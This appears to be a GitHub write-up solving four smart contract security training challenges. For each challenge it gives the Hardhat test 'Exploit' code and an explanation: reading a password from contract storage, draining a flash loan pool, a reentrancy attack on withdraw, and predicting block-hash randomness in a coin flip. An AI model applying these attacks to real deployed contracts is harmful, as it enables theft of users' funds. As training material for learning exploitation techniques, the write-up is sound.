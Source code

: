 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

---

## Challenge 4

### Head or Tail

 The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the rehead-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

